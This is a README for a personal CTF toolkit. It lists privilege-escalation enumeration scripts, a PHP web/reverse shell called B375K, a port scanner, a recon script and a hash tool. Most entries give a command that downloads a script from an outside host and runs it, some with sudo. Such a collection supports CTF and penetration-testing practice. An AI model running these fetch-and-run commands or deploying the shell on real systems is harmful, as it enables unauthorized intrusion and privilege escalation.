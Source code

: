 # Tools

My most used tools for CTF.

# Table of Contents
  - [Cheatsheets](#cheatsheets)
  - [Linpeas](#linpeas)
  - [Winpeas](#winpeas)
  - [Linenum](#linenum)
  - [Linux Smart Enumaration](#linux-smart-enumaration)
  - [B375K](#b375k)
  - [Scanner](#scanner)

# Cheatsheets
Cheatsheets for all kind of tools.
> [cheatsheets](./cheatsheets)

# Linpeas
Linpeas is an automated tool for Linux enumaration.
> [linpeas.sh](./linpeas.sh)
```sh
wget "https://tools.ntaheij.dev/linpeas.sh" -O linpeas.sh; chmod 700 linpeas.sh; ./linpeas.sh
```

# Winpeas
Winpeas is an automated tool for Windows enumaration.
> [winpeas.bat](./winpeas.bat)

> [winpeas.exe](./winpeas.exe)

# Linenum
Linenum is an automated tool for Linux enumaration.
> [linenum.sh](./linenum.sh)
```sh
wget "https://tools.ntaheij.dev/linenum.sh" -O linenum.sh; chmod 700 linenum.sh; ./linenum.sh
```

# Linux Smart Enumaration
Linux Smart Enumaration is an automated tool for Linux enumaration.
> [lse.sh](./lse.sh)
```sh
wget "https://tools.ntaheij.dev/lse.sh" -O lse.sh; chmod 700 lse.sh; ./lse.sh
```

# B375K
B375K is a multi-purpose php reverse shell.
> [b375k.php](./b375k.php)
```sh
wget "https://tools.ntaheij.dev/b375k.php" -O b375k.php
```

# Scanner
Scanner is a tool to scan your network for computers with open ports.
> [scanner.py](./scanner.py)
```sh
wget "https://tools.ntaheij.dev/scanner.py" -O scanner.py; chmod 700 scanner.py; ./scanner.py
```

# SumRecon
SumRecon is a tool for web recon.
> [sumrecon.py](./sumrecon.sh)
```sh
wget "https://tools.ntaheij.dev/sumrecon.sh" -O sumrecon.sh; chmod 700 sumrecon.sh; sudo ./sumrecon.sh
```

# Hashalyzer
Hashalyzer is a tool for analyzing hashes.
> [hashalyzer](./hashalyzer)
```sh
wget "https://tools.ntaheij.dev/hashalyzer" -O hashalyzer; chmod 700 hashalyzer; sudo ./hashalyzer
```